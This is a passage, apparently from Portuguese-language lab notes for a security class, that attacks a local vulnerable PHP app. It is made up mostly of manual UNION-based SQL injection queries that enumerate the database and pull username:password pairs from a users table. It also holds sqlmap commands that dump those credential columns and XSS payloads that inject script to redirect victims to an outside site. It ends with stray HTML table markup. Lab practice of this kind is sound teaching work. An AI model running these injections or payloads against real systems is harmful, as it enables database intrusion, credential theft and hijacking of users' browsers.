 	mysql -uroot -pp@ssw0rd
	use exemplo;
	search=-1' union select 1,user(),version(),4,5';
	select * from cursos where nome like "%-1%" union select 1;
	select * from cursos where nome like "%-1%" union select 1,2;
	select * from cursos where nome like "%-1%" union select 1,2,3,4,5;
	select * from cursos where nome like "%-1%" union select 1,user(),3,4,5;
	select * from cursos where nome like "%-1%" union select 1,user(),version(),4,5;
	select * from cursos where nome like "%-1%" union select 1,user(),version(),database(),5;
	select * from cursos where nome like "%-1%" union select 1,table_name,3,4,5 from information_schema.tables;
	select * from cursos where nome like "%-1%" union select 1,table_name,3,4,5 from information_schema.tables where table_schema="exemplo";
	select * from cursos where nome like "%-1%" union select 1,column_name,3,4,5 from information_schema.columns where table_schema="exemplo" and table_name="usuarios";
	select * from cursos where nome like "%-1%" union select 1,codigo,usuario,senha,tipo from usuarios;
	select * from cursos where nome like "%-1%" union select 1,concat(usuario,':',senha),3,4,5 from usuarios;
   ``` 
  SQLi automatizado:
  ```
	sqlmap -h
	sqlmap -hh
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" --current-db
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" --users
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" -D exemplo --tables
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" -D exemplo -T usuarios --columns
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" -D exemplo -T usuarios -C 'usuario,senha' --dump
	sqlmap -u "http://192.168.10.2/app/restrito/login.php" --forms
```
- Cross-Site Scripting (XSS)

  http://192.168.10.2/app/restrito/login.php/"><script>alert("XSS")</script>
  http://192.168.10.2/app/restrito/login.php/"><script>window.location.href="https://suap.ifsp.edu.br/"</script>

  http://192.168.10.2/app/restrito/login.php/"><script>window.location.href="https://suap.ifsp.edu.br/"</script>
  http://192.168.10.2/app/publico/pesquisa.php/"><script>alert("Autentique-se para realizar a pesquisa");window.location.href="https://suap.ifsp.edu.br/"</script>
  http://192.168.10.2/app/publico/pesquisa.php, pesquisa por:
    
    <script>alert("XSS")</script>
    
    <script>alert("Autentique-se para realizar a pesquisa");window.location.href="https://suap.ifsp.edu.br/"</script>
    
    <br><br>
    <div class="row">
      <div class="column cl-100 column-content">
        <table id="tabela">
          <tr>
            <th>Nome</th>
            <th>Nível</th>
            <th>Duração</th>
            <th>Período</th>
          </tr>
          <tr>
            <td>Tecnologia em Assuntos Aleatórios</td>
            <td>Graduação</td>
            <td>2 anos</td>
            <td>Noturno</td>
          </tr>
```